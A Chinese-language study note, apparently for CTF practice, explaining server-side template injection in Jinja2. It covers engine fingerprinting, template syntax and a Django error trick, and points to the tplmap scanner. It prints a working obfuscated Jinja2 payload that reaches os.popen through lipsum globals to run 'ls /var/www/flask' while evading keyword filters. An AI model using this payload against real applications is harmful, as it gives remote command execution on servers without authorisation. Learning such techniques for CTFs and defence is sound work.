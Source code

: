 # SSTI

## 定义以及理解

模板注入涉及的是服务端Web应用使用模板引擎渲染用户请求的过程

模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击。

如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容

进行模版编译和解析最后输出。

最大的优点就是你可以在服务器端动态生成HTML页面，看起来跟静态HTML页面一样。

首先我们先讲解下什么是模板引擎，为什么需要模板，模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。但是往往新的开发都会导致一些安全问题，虽然模板引擎会提供沙箱机制，但同样存在沙箱逃逸技术来绕过。

（快捷方便------>承担风险）

所以漏洞的来源还是那一个：过于信任用户所输入的数据。



![img](https://tcs-devops.aliyuncs.com/storage/11241ba5a4bc12bae229287158179cff4836?Signature=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJBcHBJRCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9hcHBJZCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9vcmdhbml6YXRpb25JZCI6IiIsImV4cCI6MTYyNjM0OTM2MSwiaWF0IjoxNjI1NzQ0NTYxLCJyZXNvdXJjZSI6Ii9zdG9yYWdlLzExMjQxYmE1YTRiYzEyYmFlMjI5Mjg3MTU4MTc5Y2ZmNDgzNiJ9.-UXB24hXZzUZ9TqPnUJABW9ONURC_wcLsIvsnTRqz18)





祭出这张经典的图，经常用来判断模板类型



需要关注的点：{{7*‘7’}}



Jinja2输出为49

TWIG输出为7777777

那么到底这个东西能干嘛呢？

先给出初步印象（jinja2）：

用户输入{{7+7}}

然后服务器帮你运行{{}}中的代码，算出来=49.

就是相当于服务器帮你解析运行了你输入的数据，这时候我们如果输入的是恶意的代码........

## 基础语法

~~觉得写的太少了想添加欢迎。~~


```plain
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... # for Line Statements
Plain Text
```



这个是官方文档的介绍


{%%}可以用来声明变量，当然也可以用于循环语句和条件语句。


{{}}用于将表达式打印到模板输出


{##}表示未包含在模板输出中的注释


##可以有和{%%}相同的效果


```plain
{% set x= 'abcd' %}  声明变量
{% for i in ['a','b','c'] %}{{i}}{%endfor%} 循环语句
{% if 25==5*5 %}{{1}}{% endif %}  条件语句
Plain Text
```



```plain
# for i in ['a','1']{{ i }}# endfor
{% for i in ['a','1'] %}{{ item }}{% endfor %}
这两条是等效的，但是有个前提，必须在environment中配置line_statement_prefix即app.jinja_env.line_statement_prefix="#"
Plain Text
```



You can use a dot (.) to access attributes of a variable in addition to the standard Python __getitem__ “subscript” syntax ([]). --官方原文


除了标准的python语法使用点`（.）`外，还可以使用中括号`（[]）`来访问变量的属性。


```plain
{{"".__class__}}
{{""['__classs__']}}
Plain Text
```



从某种意义上，这也是一种绕过。


有些题目会写的很长，不妨拿个过来看看，如果能看懂那基础（甚至是进阶）部分应该就没什么问题了。


```plain
{% set id=dict(ind=a,ex=a)|join%}#利用join过滤器拼接成index，下面几个类似
{% set pp=dict(po=a,p=a)|join%}
{% set ls=dict(ls=a)|join%}
{% set ppe=dict(po=a,pen=a)|join%}
{% set gt=dict(ge=a,t=a)|join%}
{% set cr=dict(ch=a,r=a)|join%}
{% set nn=dict(n=a)|join%}
{% set tt=dict(t=a)|join%}
{% set ff=dict(f=a)|join%}
{% set ooqq=dict(o=a,s=a)|join %}
{% set rd=dict(re=a,ad=a)|join%}
{% set five=(lipsum|string|list)|attr(id)(tt) %}#这里用lipsum过滤器最终能够取得数字5{具体流程：生成随机数字->字符串列表输出->index("f")找字符'f'在生成的列表中的第一次出现的位置..}（lorem is not just a normal snippet—it’s actually a generator. Every time you expand it, it will generate a 30-words dummy text, splitted into a few sentences.）
{% set three=(lipsum|string|list)|attr(id)(nn) %}
{% set one=(lipsum|string|list)|attr(id)(ff) %}
{% set shiba=five*five-three-three-one %}
{% set xiahuaxian=(lipsum|string|list)|attr(pp)(shiba) %}#（这个是下划线，用pop取，和上面类似）
{% set gb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set bin=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set chcr=(lipsum|attr(gb))|attr(gt)(bin)|attr(gt)(cr) %}
{% set xiegang=chcr(three*five*five-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one)%}
{% set space=chcr(three*three*five-five-five-three) %}
{% set shell=(ls,space,xiegang,dict(var=a)|join,xiegang,dict(www=a)|join,xiegang,dict(flask=a)|join)|join %}
{{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(shell)|attr(rd)()}}
```

不做过多解释，之后你还会看到他的。

## 使用工具

tplmap:ssti扫描工具，在初期会带给你美妙的体验

```
git clone https://github.com/epinna/tplmap
```

至于用法-h自己慢慢摸索。

## Django报错

不是ssti


但是是模板所以放这了，原理是溢出


%80后的字符结合报错信息UnicodeEncodeError可以推断是由于ascii编码不支持导致的报错


网站是使用Django进行开发的,结合PHP可以通过在参数中注入@来读取文件的漏洞,依次查看python的配置文件和数据库得到flag的内容


（这个我自己总结图片被吞掉了，先放着）

